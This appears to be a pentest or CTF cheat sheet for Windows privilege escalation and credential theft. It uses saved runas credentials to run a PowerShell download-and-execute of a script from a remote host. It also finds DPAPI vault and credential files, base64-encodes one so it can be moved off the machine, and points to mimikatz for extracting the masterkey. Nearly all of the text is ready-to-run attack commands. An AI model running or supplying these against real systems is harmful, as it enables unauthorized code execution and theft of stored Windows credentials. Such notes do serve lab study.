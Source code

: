 ```
cmdkey /list
```

Run a command as admin:
```
runas /user:ACCESS\Administrator /savecred ​ "powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.2/admin.ps1')
```

```
powershell.exe -Credential "TestDomain\Me" -NoNewWindow -ArgumentList "Start-Process powershell.exe -Verb runAs"
```

Find all `runas` shortcuts:
```
Get-ChildItem​ ​ "C:\"​ *.lnk -Recurse -Force | ft fullname | ​ Out-File​ shortcuts.txt

ForEach​ ( ​ $file​ ​ in​ gc .\shortcuts.txt) { ​ Write-Output​ ​ $file​ ; gc ​ $file​ |
Select-String​ runas }
```

#### Windows Data Protection API

Locating `credential files`
```bat
cmd​ /c "​ dir​ /S /AS C:\Users\security\AppData\Local\Microsoft\Vault & ​ dir​ /S /AS
C:\Users\security\AppData\Local\Microsoft\Credentials & ​ dir​ /S /AS
C:\Users\security\AppData\Local\Microsoft\Protect & ​ dir​ /S /AS
C:\Users\security\AppData\Roaming\Microsoft\Vault & ​ dir​ /S /AS
C:\Users\security\AppData\Roaming\Microsoft\Credentials & ​ dir​ /S /AS
C:\Users\security\AppData\Roaming\Microsoft\Protect"
```

Transfer
```bat
[Convert]::ToBase64String([IO.File]::ReadAllBytes(​ "C:\Users\security\AppData\Roamin
g\Microsoft\Credentials\51AB168BE4BDB3A603DADE4F8CA81290"​ ))
```
```bat
[IO.File]::WriteAllBytes(​ "51AB168BE4BDB3A603DADE4F8CA81290"​ ,
[Convert]::FromBase64String(​ "AQAAAA4CAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAALsOSB6
VI40+LQ9k9ZFkFgAAAACA6AAAARQBuAHQAZQByAHAAcgBpAHMAZQAgAEMAcgBlAGQAZQBuAHQAaQBhAGwAI
ABEAGEAdABhAA0ACgAAABBmAAAAAQAAIAAAAPW7usJAvZDZr308LPt/MB8fEjrJTQejzAEgOBNfpaa8AAAA
AA6AAAAAAgAAIAAAAPlkLTI/rjZqT3KT0C8m5Ecq3DKwC6xqBhkURY2t/T5SAAEAAOc1Qv9x0IUp+dpf+I7
c1b5E0RycAsRf39nuWlMWKMsPno3CIetbTYOoV6/xNHMTHJJ1JyF/4XfgjWOmPrXOU0FXazMzKAbgYjY+WH
hvt1Uaqi4GdrjjlX9Dzx8Rou0UnEMRBOX5PyA2SRbfJaAWjt4jeIvZ1xGSzbZhxcVobtJWyGkQV/5v4qKxd
lugl57pFAwBAhDuqBrACDD3TDWhlqwfRr1p16hsqC2hX5u88cQMu+QdWNSokkr96X4qmabp8zopfvJQhAHC
KaRRuRHpRpuhfXEojcbDfuJsZezIrM1LWzwMLM/K5rCnY4Sg4nxO23oOzs4q/ZiJJSME21dnu8NAAAAAY/z
BU7zWC+/QdKUJjqDlUviAlWLFU5hbqocgqCjmHgW9XRy4IAcRVRoQDtO4U1mLOHW6kLaJvEgzQvv2cbicmQ
=="​ ))
```

Extraction credential file -> masterkey (guidMasterKey)
- [https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials)
